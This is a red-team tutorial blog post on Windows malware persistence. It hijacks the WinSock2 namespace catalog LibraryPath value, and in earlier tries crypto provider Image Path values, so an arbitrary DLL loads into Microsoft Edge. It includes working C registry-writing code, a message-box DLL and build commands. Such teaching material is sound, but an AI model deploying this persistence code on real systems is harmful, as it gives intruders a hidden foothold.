 ```yaml
---
title:  "Malware development: persistence - part 26. Microsoft Edge - part 1. Simple C example."
date:   2024-08-14 03:00:00 +0300
header:
  teaser: "/assets/images/132/2024-08-19_21-36.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/132/2024-08-19_21-36.png){:class="img-responsive"}    

This post came about in preparation for a workshop on *Malware Persistence techniques*. This post shows that interesting persistence methods can be found via [Sysinternals Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) via filters, this is a well-known and popular method, I just want to show it in practice. In my case, everything worked out thanks to one of the registry keys that is used by many applications of the operating system, in particular Microsoft Edge:      

```powershell
"HKLM\System\CurrentControlSet\Services\WinSock2\Parameters\NameSpace_Catalog5\Catalog_Entries64\000000000007"
```

Apparently this registry path is used by all applications that work with sockets.     

### practical example

First of all, I just start with simple filters in Procmon, like this:     

![pers](/assets/images/132/2024-08-14_14-23_1.png){:class="img-responsive"}     

As a result we will get many many interesting records:      

![pers](/assets/images/132/2024-08-14_14-23.png){:class="img-responsive"}     

As you can see, we can replace different registry key values:    

![pers](/assets/images/132/2024-08-14_14-24.png){:class="img-responsive"}     

As an experiment I decided to replace one of these DLLs.    

In C it's looks like this:    

```cpp
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  // RSA
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Cryptography\\Defaults\\Provider\\Microsoft Strong Cryptographic Provider", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"Image Path", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

or another value:    

```cpp
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  // RSA???
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Cryptography\\Defaults\\Provider\\Microsoft Enhanced RSA and AES Cryptographic Provider", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"Image Path", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

It certainly worked:     

![pers](/assets/images/132/2024-08-14_14-16.png){:class="img-responsive"}     

But the caveat is that the entire operating system froze after this and even the antivirus started freeze.    

So i decided to start a new search:     

![pers](/assets/images/132/2024-08-19_21-53.png){:class="img-responsive"}     

After a long search I found another interesting key and value in the registry:     

```powershell
reg query "HKLM\System\CurrentControlSet\Services\WinSock2\Parameters\NameSpace_Catalog5\Catalog_Entries64\000000000007" /s
```

![pers](/assets/images/132/2024-08-20_13-02.png){:class="img-responsive"}     

and tried to replace it. For this just update `LibraryPath` value:    

```cpp
/*
 * hack.c
 * Microsoft Edge
 * persistence trick v1.0
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/08/14/malware-pers-26.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"System\\CurrentControlSet\\Services\\WinSock2\\Parameters\\NameSpace_Catalog5\\Catalog_Entries64\\000000000007", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry keys
    RegSetValueEx(hkey, (LPCSTR)"LibraryPath", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, the code is pretty simple as usual, just set value via `RegSetValueEx` function. In my case, `hack.dll` - just `meow-meow` messagebox:    

```cpp
/*
 * hack.c
 * "malware" for Microsoft Edge
 * persistence trick
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/08/14/malware-pers-26.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBoxA(NULL, "Meow-meow!!", "=^..^=", MB_OK);
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

### demo

Let's check everything in action.     

Compile our `meow-meow` "malware" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/132/2024-08-20_13-08.png){:class="img-responsive"}      

And compile persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/132/2024-08-20_13-08_1.png){:class="img-responsive"}      

Then, run it on test victim's machine (Windows 11 x64):    

```powershell
.\pers.exe
```

![malware](/assets/images/132/2024-08-20_13-14.png){:class="img-responsive"}      

As you can see, registry key value is successfully updated. Note that we need Administrative privleges for update this Registry value.        

Then, try to open `Microsoft Edge`:    

![malware](/assets/images/132/2024-08-19_21-35.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-33.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-34.png){:class="img-responsive"}     

For the correctness of the experiment, we will launch our Process Hacker 2 and check memory:    

![malware](/assets/images/132/2024-08-19_21-46.png){:class="img-responsive"}     

![malware](/assets/images/132/2024-08-19_21-46_1.png){:class="img-responsive"}     

As you can see, `hack.dll` started correctly, the same effect will be for other Windows programs, even `Procmon64.exe`. I assume the behavior will be the same if you open anything that uses Windows sockets. To be honest, I don't know what this particular registry parameter is used for, but it seems to have something to do with sockets.        

> This is a practical case for educational purposes only.     

[Windows Sockets](https://learn.microsoft.com/en-us/windows/win32/winsock/windows-sockets-start-page-2)     
[Malware persistence - part 1. Registry run keys](/tutorial/2022/04/20/malware-pers-1.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-08-14-malware-pers-26)    

Thanks for your time happy hacking and good bye!         
*PS. All drawings and screenshots are mine*       
